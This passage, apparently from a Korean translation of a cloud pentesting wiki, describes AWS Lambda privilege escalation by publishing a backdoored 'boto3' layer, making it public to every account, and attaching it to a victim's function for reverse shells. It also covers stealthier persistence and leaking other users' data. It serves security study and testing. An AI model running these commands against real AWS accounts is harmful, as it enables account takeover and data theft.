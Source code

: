 그런 다음, `./lambda_layer` 디렉토리를 압축하고 **새 lambda 레이어를 업로드**합니다. (자신의 계정에 또는 피해자의 계정에, 하지만 이 경우 권한이 없을 수 있습니다).\
python 폴더를 생성하고 라이브러리를 그곳에 넣어 /opt/python/boto3를 덮어써야 합니다. 또한, 레이어는 lambda에서 사용되는 **파이썬 버전과 호환되어야** 하며, 계정에 업로드할 경우 **같은 지역에 있어야** 합니다:

{% code overflow="wrap" %}
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
{% endcode %}

이제 업로드된 람다 레이어를 **모든 계정에서 접근 가능하게** 만드세요:
```bash
aws lambda add-layer-version-permission --layer-name boto3 \
--version-number 1 --statement-id public \
--action lambda:GetLayerVersion --principal *
```
그리고 피해자의 람다 함수에 람다 레이어를 연결합니다:
```bash
aws lambda update-function-configuration \
--function-name <func-name> \
--layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
--timeout 300 #5min for rev shells
```
다음 단계는 **함수를 직접 호출**할 수 있거나, **정상적인 방법으로 호출될 때까지 기다리는 것**입니다. 후자가 더 안전한 방법입니다.

**이 취약점을 활용하는 더 은밀한 방법**은 다음에서 찾을 수 있습니다:

{% content-ref url="../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md" %}
[aws-lambda-layers-persistence.md](../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md)
{% endcontent-ref %}

**잠재적 영향:** 사용된 lambda 서비스 역할에 대한 직접적인 권한 상승.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`

이 권한으로 함수를 생성하고 URL을 호출하여 실행할 수 있을지도 모릅니다... 하지만 이를 테스트할 방법을 찾지 못했으니, 찾으면 알려주세요!

### Lambda MitM

일부 lambda는 **사용자로부터 매개변수로 민감한 정보를 수신할 것입니다.** 그 중 하나에서 RCE를 얻으면, 다른 사용자가 보내는 정보를 유출할 수 있습니다. 자세한 내용은 다음을 확인하세요:

{% content-ref url="../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)
